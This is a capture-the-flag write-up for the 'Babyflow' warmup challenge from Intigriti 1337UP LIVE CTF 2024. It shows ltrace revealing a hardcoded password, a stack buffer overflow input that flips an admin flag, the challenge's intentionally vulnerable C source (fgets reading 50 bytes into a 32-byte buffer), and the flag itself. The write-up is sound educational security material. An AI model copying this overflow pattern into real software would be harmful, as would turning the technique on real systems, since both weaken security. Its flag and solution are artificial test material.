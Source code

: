 ```yaml
---
name: Babyflow (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Warmup
description: Writeup for Babyflow (Warmup) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Babyflow

## Challenge Description

> Does this login application even work?!

## Solution

When players run the binary, it asks for a password.

{% code overflow="wrap" %}
```bash
./babyflow
Enter password: cat
Incorrect Password!
```
{% endcode %}

We can use a tool like `ltrace` to see if the password is revealed.

{% code overflow="wrap" %}
```bash
ltrace ./babyflow
printf("Enter password: ")                                               = 16
fgets(Enter password: cat
"cat\n", 50, 0x7fe918c2aa80)                                       = 0x7ffe1addfa40
strncmp("cat\n", "SuPeRsEcUrEPaSsWoRd123", 22)                           = 16
puts("Incorrect Password!"Incorrect Password!
)                                              = 20
+++ exited (status 0) +++
```
{% endcode %}

It is! Let's try `SuPeRsEcUrEPaSsWoRd123`.

{% code overflow="wrap" %}
```bash
./babyflow
Enter password: SuPeRsEcUrEPaSsWoRd123
Correct Password!
Are you sure you are admin? o.O
```
{% endcode %}

It's not that easy 😥 Before disassembling the binary, let's see if there's an obvious buffer overflow.

{% code overflow="wrap" %}
```bash
checksec --file babyflow
[*] '/home/crystal/Desktop/babyflow/babyflow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
{% endcode %}

Canaries are disabled, so there's nothing stopping us from "smashing the stack".

{% code overflow="wrap" %}
```bash
./babyflow
Enter password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Incorrect Password!
```
{% endcode %}

We can't forget the password!

{% code overflow="wrap" %}
```bash
./babyflow
Enter password: SuPeRsEcUrEPaSsWoRd123AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Correct Password!
INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
```
{% endcode %}

Flag: `INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}`

### Source Code

I cba opening the binary in ghidra now so for anybody who's interested, this is how it works; there's a buffer overflow in the `password` variable, which allows 50 bytes to be written to a 32 byte buffer. Players are required to enter the correct password at the beginning of the input, but by appending additional characters, they can overwrite the `admin` flag with something other than zero.

{% code overflow="wrap" %}
```c
int main(void)
{
    char password[32];
    int admin = 0;

    printf("Enter password: ");
    fgets(password,50,stdin);

    if(strncmp(password, "SuPeRsEcUrEPaSsWoRd123", strlen("SuPeRsEcUrEPaSsWoRd123")) == 0)
    {
        printf("Correct Password!\n");
    }
    else
    {
        printf("Incorrect Password!\n");
        return 0;
    }

    if(admin)
    {
        printf("INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}\n");
    }else{
		printf("Are you sure you are admin? o.O\n");
	}

    return 0;
}
```
{% endcode %}
